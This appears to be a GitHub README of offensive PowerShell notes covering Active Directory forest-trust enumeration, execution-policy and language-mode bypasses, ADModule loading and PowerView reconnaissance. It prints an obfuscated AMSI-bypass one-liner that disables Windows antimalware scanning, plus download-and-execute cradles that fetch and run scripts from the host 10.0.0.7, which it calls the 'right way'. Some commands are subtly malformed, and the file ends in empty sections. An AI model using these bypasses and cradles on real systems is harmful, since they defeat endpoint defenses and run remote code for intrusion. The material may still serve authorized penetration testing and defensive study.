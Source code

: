 # Powershell-Stuff

&nbsp; Powershell stuff  

&nbsp;  

## Domain Forest Trust enumeration using .NET classes

1. Run as a domain member on the workstation  

2. To get information regarding forest for the current domain:  
`[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()`  
&nbsp;&nbsp;&nbsp;&nbsp;- *'GlobalCatalogs' can be appended to get global catalog*  
&nbsp;&nbsp;&nbsp;&nbsp;- *'Forest' can be replaced with 'Domain' to get domain info*  
&nbsp;&nbsp;&nbsp;&nbsp;- *The previous replacement and appending 'GetAllTrustRelationships()' gives trust relaitonship info for the domain*  

3. Declaring / setting the vbl $ForestRootDomain:  
`$ForestRootDomain = '<>'`  

4. To get information regarding forest for the current domain:  
`([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', $ForestRootDomain)))).GetAllTrustRelationships()`

&nbsp;  

## AMSI Bypass

1. Source 1: [reigningshells/powershell-bypasses.ps1](https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560)  
&nbsp;&nbsp;&nbsp;&nbsp;- *This bypass works*  

2. Test that `amsiinitfailed`, `amsiutils`, `invoke-mimikatz`, etc returns that it isn't the name of a cmdlet, function, etc  

3. Test BURNED bypass: ``sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )``  
&nbsp;&nbsp;&nbsp;&nbsp;- *It should have no return output*  

4. Right way to bypass: `iex (New-Object New.WebClient).DownloadString("https://10.0.0.7/amsi/bypass.ps1")`  

5. Source 2: [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

6. Source 3: [0gtweet - powershell.exe params](https://twitter.com/0gtweet/status/1281103918693482496)

&nbsp;  

## TLS version

1. To enumerate 'systemdefault' to see what's supported:  
`[enum]::getvalues('net.securityprotocoltype')`  

2. To set to TLS1.2 (or greater):  
`[Net.ServicePointmanager]::SecurityProtocol = 'Tls12'`  
&nbsp;&nbsp;&nbsp;&nbsp;- *can replace 'Tls12' with a greater version*  

&nbsp;  

## ADModule

1. Clone or download ADModule: [samratashok/ADModule](https://github.com/samratashok/ADModule)  
&nbsp;&nbsp;&nbsp;&nbsp;- *can also just download the 2 needed files*  

2. `Import-Module \<absolute or relative path>\Microsoft.ActiveDirectory.Management.dll -Verbose`  

3. `Import-Module \<absolute or relative path>\ActiveDirectory\ActiveDirectory.psd1 -Verbose`  
&nbsp;&nbsp;&nbsp;&nbsp;- *If the execution policy fails, do `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then do step 2 onward*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Can also do `Unblock-File <file_path>`*  

4. `Get-Command -Module ActiveDirectory` *won't work* and `Get-ADDomain` *will work*  
&nbsp;  
5. `iwr -Uri "https://github.com/samratashok/admodule/archive/master.zip" -Outfile ADModule.zip` or download zip  

6. `Expand-archive .\ADModule.zip`  

7. `cd .\ADModule-master\ActiveDirectory`  

8. `Import-Module .\ActiveDirectory.psd1`  

9. `Get-Command -Module ActiveDirectory` should work now  

&nbsp;  

## Execution Policy and Execution Context  

1. `Get-ExecutionPolicy -list`  
&nbsp;&nbsp;&nbsp;&nbsp;- *make sure only unrestricted for CurrentUser and LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *`Set-ExecutionPolicy -Scope <scope_name> -ExecutionPolicy Unrestricted` where <scope_name> can be CurrentUser or LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *Source: [ways to bypass powershell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)*

2. `$ExecutionContext.SessionState`  
&nbsp;&nbsp;&nbsp;&nbsp;- *Make sure LanguageMode is FullLanguage or do `-set $ExecutionContext.SessionState.LanguageMode = "FullLanguage"`*  

&nbsp;  

## PowerView  

1. New PowerView: [PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)  
&nbsp;&nbsp;&nbsp;&nbsp;- *Download zip, or git clone, or copy/paste in `notepad.exe PowerView.ps1` or by `iwr -Uri "https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon/PowerView.ps1" -Outfile PowerView.ps1`*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Right way to download: `iex (New-Object New.WebClient).DownloadString("https:10.0.0.7/powersploit/PowerSploit-master/Recon/PowerView.ps1")`*  

2. `Import-Module .\PowerView.ps1`
&nbsp;&nbsp;&nbsp;&nbsp;- * PowerView Tips: [HarmJ0y/Cheatsheets](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf) and [BSidesCharm-PowershellSecurity](https://adsecurity.org/wp-content/uploads/2016/05/BSidesCharm-2016-PowerShellSecurity-Defending-the-Enterprise-from-the-Latest-Attack-Platform-FINAL.pdf)

&nbsp;  

## 

1. 

&nbsp;  

## 

1. 

&nbsp;  
